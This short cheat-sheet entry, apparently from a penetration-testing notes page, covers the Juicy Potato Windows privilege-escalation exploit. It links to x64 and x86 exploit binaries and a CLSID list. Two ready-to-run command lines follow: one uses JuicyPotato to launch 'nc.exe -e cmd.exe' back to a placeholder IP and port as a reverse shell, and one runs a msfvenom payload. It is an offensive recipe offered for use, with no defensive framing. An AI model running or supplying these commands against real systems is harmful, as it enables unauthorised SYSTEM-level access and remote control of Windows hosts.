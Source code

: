 # Juicy Potato

### x64 | [JuicyPotatox64 download](https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe)

### x86 | [JuicyPotatox86 download](https://github.com/ivanitlearning/Juicy-Potato-x86/releases/download/1.2/Juicy.Potato.x86.exe)

### CLSID | [http://ohpe.it/juicy-potato/CLSID/](http://ohpe.it/juicy-potato/CLSID/)

```
# using nc 
JuicyPotato.exe -l 1337 -p "c:\windows\system32\cmd.exe" -a "/c PATH\nc.exe -e cmd.exe IP PORT" -t * -c CLSID

# using msfvenom 
Juicy.Potato.exe -l 1337 -p "c:\users\public\kashz.exe" -t * -c CLSID
```
